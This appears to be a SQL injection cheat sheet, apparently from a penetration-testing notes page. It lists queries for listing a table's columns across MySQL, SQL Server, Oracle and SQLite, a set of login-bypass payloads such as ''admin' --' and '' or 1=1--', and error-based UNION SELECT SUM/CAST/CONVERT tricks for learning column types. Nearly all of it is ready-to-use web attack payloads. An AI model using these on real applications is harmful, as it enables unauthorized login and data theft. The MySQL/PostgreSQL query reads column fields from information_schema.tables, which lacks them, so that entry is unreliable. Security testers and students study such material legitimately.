 ## List All The Columns In A Table
| Applicability | Payload |
| - | - |
| MySQL, PostgreSQL | `SELECT column_name,column_type FROM information_schema.tables WHERE table_name='TABLE_NAME' AND table_schema='DBNAME'` |
| SQL Server | `SELECT COL_NAME(OBJECT_ID('DBNAME.TABLE_NAME'), <INDEX>)` |
| Oracle | `SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='TABLE_NAME' AND OWNER='DBNAME'` |
| SQLite | `SELECT name FROM PRAGMA_TABLE_INFO('TABLE_NAME')` |
| | `SELECT sql FROM sqlite_master WHERE tbl_name='TABLE_NAME'` |

## Login Bypass
```SQL
admin' --
admin' #
admin'/*

' or 1=1--
' or 1=1#
' or 1=1/*

') or '1'='1--
') or ('1'='1--
```

## Enumerate Column's Data Type
1. Use `SUM()` aggregate function to intentionally provoke error for non-numeric values.
  ```SQL
  <!-- SQL Server -->
  ' UNION SELECT SUM(column);--
  ' UNION SELECT SUM('hello');--
  ```
  ```bash
  ERROR: The sum or average aggregate operation cannot take a varchar data type as an argument.
  ```
  > If there is no error, the column is numeric.

2. Use `CAST()`
  ```SQL
  SELECT CAST('abc' AS INT)
  ```
  ```bash
  Error: Conversion failed when converting the varchar value 'abc' to data type int.
  ```

3. Use `CONVERT()`
  ```SQL
  SELECT CONVERT(INT, 'abc');
  ```
  ```bash
  Error: Conversion failed when converting the varchar value 'abc' to data type int.
  ```
